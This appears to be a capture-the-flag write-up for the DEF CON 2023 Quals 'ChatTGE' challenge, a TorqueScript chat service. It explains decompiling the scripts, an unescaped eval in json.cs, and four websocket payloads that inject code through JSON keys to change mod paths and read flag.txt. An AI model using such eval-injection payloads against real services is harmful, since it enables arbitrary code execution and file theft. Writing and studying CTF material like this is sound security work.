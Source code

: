 # ChatTGE - DefCON CTF 2023 Quals

A chatGPT-like web service implemented by TorqueScript, based on [OpenMBU](https://github.com/MBU-Team/OpenMBU)

## Decompile the script

The file structure is like

```
chattge/
    chat.cs.dso
    defaults.cs.dso
    json.cs.dso
    main.cs.dso
    sha1.cs.dso
    utils.cs.dso
    websocket.cs.dso
ChatTGE.exe
kernel32.dll
main.cs
flag.txt
```

Double-click `ChatTGE.exe`, we could launch server at local port 28080.
The logic code is located in `chattge` folder and compiled into `dso` file.
My teammate decompile them using [BrokenSynapse](https://github.com/JusticeRage/BrokenSynapse) (maybe with some modification).

## Eval injection

After decompiling the script, we find an unsafe eval in `json.cs`:

```
eval(%object.getId() @ "." @ %object.name[%i] @ " = " @ longstringify(getFields(%item, 1)) @ ";");
```

They use `eval` to set field for an object. Since `%object.name` is controlled with no escaping, we could inject torquescript code into this `eval` call.

## Reading flag.txt

According to the document, we figure out reading file code like:

```
// Create a file object for reading
%fileRead = new FileObject();

// Open a text file, if it exists
%result = %fileRead.OpenForRead("./test.txt");

if ( %result )
{
   // Read in the first line
   %line = %fileRead.readline();

   // Print the line we just read
   echo(%line);
}
```

However, the `flag.txt` located at root directory seems not readable. We can only read files in `chattge/` directory.
Trying serveral times, I find in `main.cs` there is `setModPaths` call to put `chattge/` into mod path. What about we put the root directory `.` into mod path? 

Finally, my teammate solve it with 4 websocket request:

```
{"type=aaa;setModPaths(\".;chattge;\");aaa":"aaa"}
{"type=\"OK\";$file=new FileObject();bbb":"bbb"}
{"type=$file.openForRead(\"./flag.txt\");ccc":"ccc"}
{"type=$file.readLine();ddd":"ddd"}
```

In fact, this is an unintended solution apart from the author's design.
The intended way uses another memory bug and lauches shellcode, refer to the official repo for more details.

## Reference

- Official repo (with source code): https://github.com/Nautilus-Institute/quals-2023/blob/main/chattge

- [Untorque](https://github.com/figment/Untorque)
- [BrokenSynapse](https://github.com/JusticeRage/BrokenSynapse)
- [Torque3D FileObject Class Reference](https://documentation.help/TorqueScript/classFileObject.html)
